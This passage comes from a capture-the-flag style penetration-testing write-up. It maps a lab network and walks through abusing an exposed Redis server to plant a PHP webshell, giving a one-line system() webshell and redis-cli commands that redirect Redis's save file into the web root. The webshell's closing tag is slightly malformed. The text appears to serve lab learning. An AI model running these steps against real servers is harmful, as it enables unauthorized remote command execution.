 
Map of the network showing the relation between the http server and the database

```java
[Attacker] 10.10.14.26

  [nodered] 172.18.0.2:1880 172.19.0.4:1880

    [host]        172.19.0.1

    [container_1] 172.19.0.2:80   --|
                                    | connection site to database
    [container_2] 172.19.0.3:6379 --|

```

Investigating more, hacktricks show a possible way to get remote command execution in the redis database. [Redis RCE](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce)

Another way to get remote command execution is through a webshell which can be done following the steps that hacktricks show to upload a file. [File upload](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#ssh)

1. Generate a simple php webshell that contains newlines at the beginning and at the bottom of the file, it is imperative that the file has blank newlines before the content.
```php



<?php system($_REQUEST['x']); >



```

2. Import the file to redis 
```bash
cat x.php | redis-cli -h 127.0.0.1 -x set reverse
```

3. Knowing the path from the source code of 172.19.0.2 it can be used as the destination to upload the webshell.
```bash
redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
```

4. Set the database name to one with extension .php.
```bash
redis-cli -h 127.0.0.1 config set dbfilename "x.php"
```

5. Save the changes
```bash
redis-cli -h 127.0.0.1 save
```

An script can be created to automate this task.
